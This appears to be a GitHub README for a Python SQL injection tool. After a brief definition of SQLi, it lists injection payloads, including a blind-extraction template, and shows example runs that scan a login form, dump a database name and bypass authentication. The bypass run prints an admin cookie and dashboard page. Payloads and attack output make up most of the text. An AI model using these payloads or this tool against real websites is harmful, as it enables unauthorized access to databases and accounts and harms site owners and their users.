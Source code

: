 # What is SQL injection (SQLi)?
SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack. <a href="https://github.com/payloadbox/sql-injection-payload-list">Learn more</a>.

**Payloads**
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
' OR 1 = 1 -- 
' OR BINARY substring(database(), %d, 1) = '%s' -- 
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
```

**Example**
- Scan Vulnerability Sql Injection
```
python3 main.py -s http://localhost/hacking/login.php
[!] Trying http://localhost/hacking/login.php"
[!] Trying http://localhost/hacking/login.php'
[+] Detected 1 forms on http://localhost/hacking/login.php.
```
- Hack Database With Sql Injection
```
python3 main.py -d http://localhost/hacking/login.php
hacking
```
- Bypass Login Website With Sql Injection
```
python3 main.py -f http://localhost/hacking/login.php
--------------------------------------------------
[+] Login success!
[+] Admin cookie: mkffq2vgo24is4jr782cuc6g2n

<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Dashboard</title>
    </head>
<body>
   <h1>Hallo admin!</h1>
        <p>Data 1 : This is coffee</p>
    <p>Data 2 : This is tea</p>
    <p>Data 3 : This is orange</p>
         <a href="logout.php">Logout</a>
</body>
</html>
```

# Libraries
- <a href="https://pypi.org/project/bs4/">Beautiful Soup</a>
- <a href="https://pypi.org/project/requests/">Requests</a>
